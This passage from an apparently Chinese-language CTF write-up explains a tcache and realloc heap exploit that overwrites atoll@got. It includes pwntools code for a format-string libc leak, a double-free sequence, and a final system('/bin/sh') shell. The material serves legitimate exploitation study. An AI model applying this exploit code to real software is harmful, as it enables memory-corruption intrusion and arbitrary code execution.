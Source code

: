     - 寫入啥不重要
    - 製造出 `heap[0]` `heap[1]` 都指向同一塊記憶體
- `free(heap[1])`
    - 先 free 是為了等等要再來這邊拿 chunk
    - 現在 Tcache chain:
        - 躺在heap的正常 chunk -> 0 (end)
- **`heap[0] = realloc(heap[0], 0x10)`**
    - 因為 `heap[0]` 未清空, 指著一塊 size 正確的 chunk
    - **這邊就就用到剛剛說的 realloc 的特性**, `oldsize >= nb`
    - **舊 size 夠大, newp 依舊是 oldp, return `heap[0]` 就好**
    - 如此就能寫入ㄌ, 寫進 `atoll@got`
    - 現在 Tcache chain:
        - 躺在heap的正常 chunk -> **atoll@got** -> \?\?\?\?\?
- `malloc(0)`
    - 現在 Tcache chain:
        - **atoll@got** -> \?\?\?\?\?

如此一來再拿一塊就能把 `atoll@got` 改寫成 `printf@plt` 嚕

一樣的 leak libc
```python
# Leak libc
rfree('%7$p')
libc.address = int(p.recvuntil('\n', drop=True), 16) - libc.symbols['_IO_2_1_stdout_']
print('libc: {:#x}'.format(libc.address))
```

最後一部分
```python
# Double free attack again with Format string attack
rfree(b'%9$nxxxx' + p64(0x4040d0), isBytes=True) # Clear heap[0] by fmt str attack
rfree(b'%9$nxxxx' + p64(0x4040d8), isBytes=True) # Clear heap[1] by fmt str attack
allocate('a\0', '%95x', b'a'*0x2) # heap[1] = malloc(0x60)
reallocate('a\0', '\0') # free(heap[1])
allocate('\0', '%95x', b'a'*0x2) # heap[0] = malloc(0x60)
rfree('a\0') # free(heap[1]), heap[1] = 0
reallocate('\0', '%95x', p64(writehere).ljust(0x10, b'\x87')) # heap[0] = realloc(heap[0], 0x60)
rfree(b'%9$nxxxx' + p64(0x4040d0), isBytes=True) # Clear heap[0] by fmt str attack
allocate('\0', '%95x', b'a'*0xf) # heap[0] = malloc(0x60), garbage
payload = p64(libc.symbols['system'])
allocate('a\0', '%95x', payload[:0x7]) # heap[1] = malloc(0x60), arbitrary write
```
利用跟前面一樣的道理, 把 `atoll@got` 改為 `system`

```python
rfree(b'/bin/sh\0', isBytes=True) # system('/bin/sh')

p.interactive()
```

**這種打法就能通吃 libc-2.27 libc-2.29 了**

###### tags: `CTF`